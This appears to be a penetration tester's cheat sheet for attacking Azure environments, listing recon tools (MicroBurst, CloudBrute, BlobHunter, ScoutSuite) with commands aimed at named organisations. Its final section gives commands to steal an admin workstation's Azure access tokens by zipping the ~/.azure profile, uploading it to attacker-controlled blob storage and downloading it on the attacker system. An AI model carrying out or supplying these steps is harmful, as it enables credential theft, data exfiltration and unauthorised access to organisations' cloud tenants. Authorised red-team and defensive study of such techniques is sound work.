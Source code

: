 ### Microburst
Import-Module .\MicroBurst\MicroBurst.psm1

### Stormspotter
cd .\Stormspotter
docker-compose up

### Microburst Methodology

#### Variables
$target = "straylightsecurity"

#### Subdomains
Invoke-EnumerateAzureSubdomains -Base $target

#### Blob container recon
Invoke-EnumerateAzureBlobs -Base $target

#### CloudBrute
#### Guide -  https://0xsha.io/blog/introducing-cloudbrute-wild-hunt-on-the-clouds
```bash
wget https://github.com/0xsha/CloudBrute/releases/download/v1.0.7/cloudbrute_1.0.7_Windows_x86_64.zip && unzip
cloudbrute_1.0.7_Windows_x86_64.zip  

./cloudBrute -d corpomaxllc.com -k corpomax -m storage -t 80 -T 10 -w "./data/storage_small.txt"
```

#### Blobhunter
```bash
git clone https://github.com/cyberark/BlobHunter.git

cd Blobhunter

pip3 install -r requirements.txt

python3 BlobHunter.py
```

#### ScoutSuite
```bash
git clone https://github.com/nccgroup/ScoutSuite.git

```

### Admin workstation steal access token
### land a admin account on a workstation, grab the access tokens for  later
```bash
url=BLOB STORAGE YOU WANT TO SEND TO
 ls ~/.azure
 zip -r azureprofile.zip ~/.azure

 ### PUT to Blob
 http PUT $url @azureprofile.zip 'x-ms-blob type: BlockBlob'
```
```bash
### download on attacker system
wget $url/azureprofile.zip
unzip azureprofile.zip -d azure
```
